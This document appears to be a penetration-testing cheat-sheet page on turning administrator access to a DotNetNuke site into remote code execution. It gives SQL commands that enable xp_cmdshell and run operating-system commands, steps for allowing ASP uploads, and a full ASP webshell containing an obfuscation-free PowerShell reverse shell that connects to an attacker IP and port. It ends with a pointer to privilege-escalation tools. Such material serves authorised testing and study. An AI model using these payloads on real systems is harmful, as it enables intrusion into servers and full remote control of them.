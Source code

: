 
If you enter as **administrator** in DNN it's easy to obtain RCE.

## Via SQL

A SQL console is accessible under the `**Settings**` page where you can enable `**xp_cmdshell**` and **run operating system commands**.

Use these lines to enable `**xp_cmdshell**`:

```
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

And press **"Run Script"** to run that sQL sentences.

Then, use something like the following to run OS commands:

Copy

```
xp_cmdshell 'whoami'
```

### Via ASP webshell

In `Settings -> Security -> More -> More Security Settings` you can **add new allowed extensions** under `Allowable File Extensions`, and then clicking the `Save` button.

Add `**asp**` or `**aspx**` and then in `**/admin/file-management**` upload an **asp webshell** called `shell.asp` for example.

For instance:

```
<%
Dim command, shell, ip, port
ip = "172.16.8.120"   ' <-- Pivot IP inside 172.16.8.0/24
port = 4444           ' <-- Port forwarded from pivot to Kali

Set shell = CreateObject("WScript.Shell")
Set command = shell.Exec("cmd.exe /c powershell -nop -w hidden -c ""$c=New-Object Net.Sockets.TCPClient('" & ip & "'," & port & ");$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1 | Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$r=[text.encoding]::ASCII.GetBytes($sb2);$s.Write($r,0,$r.Length);$s.Flush()}""")
%>
```

Then access to `**/Portals/0/shell.asp**` to access your webshell.

### Privilege Escalation

You can **escalate privileges** using the **Potatoes** or **PrintSpoofer** for example.
